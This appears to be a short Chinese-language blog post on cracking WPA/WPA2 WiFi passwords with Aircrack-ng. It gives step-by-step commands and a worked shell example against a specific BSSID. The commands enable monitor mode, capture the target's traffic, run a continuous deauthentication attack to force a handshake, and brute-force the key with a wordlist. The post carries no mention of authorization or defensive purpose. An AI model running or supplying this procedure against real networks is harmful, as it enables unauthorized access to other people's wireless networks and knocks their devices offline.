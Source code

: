 ```yaml
---
layout: post
title: 利用 Aircrack-ng 进行 Wifi 破解
description: Aircrack-ng 是一个与 802.11 标准的无线网络分析有关的安全软件，主要功能有：网络侦测，数据包嗅探，WEP 和 WPA/WPA2-PSK 破解。
key: Aircrack-ng, Wifi, Attack
---
```


### 工具
- Linux 主机
- [Aircrack-ng](https://www.aircrack-ng.org/){:target="_blank"}
- 无线网卡

### 步骤
1. 查看网卡列表: iwconfig
2. 启用用来破解的网卡: airmon-ng start <网卡名>
3. 重新查看网卡列表，指定网卡启用后网卡名会变: iwconfig
4. 查看 wifi 列表: airodump-ng <网卡名>
5. 抓取目标 wifi 的网络包并存储: airodump-ng -c <channel> --bssid <wifi 破解目标的bssid> -w <文件名> <网卡名>
6. 获取握手包，直到出现 WPA handshake: aireplay-ng -0 0 -a <bssid> <网卡名>
7. 利用字典破解 .cap 数据包: aircrack-ng -w <字典名> -b <bssid> 文件名*.cap

### 样例
{% highlight shell %}
iwconfig
airmon-ng start wlp0s20u1
iwconfig
airodump-ng wlp0s20u1mon
airodump-ng -c 6 --bssid C0:61:18:29:9D:28 -w wifiname wlp0s20u1mon
aireplay-ng -0 0 -a C0:61:18:29:9D:28 wlp0s20u1mon
aircrack-ng -w wordlist.txt -b C0:61:18:29:9D:28 wifiname*.cap
{% endhighlight %}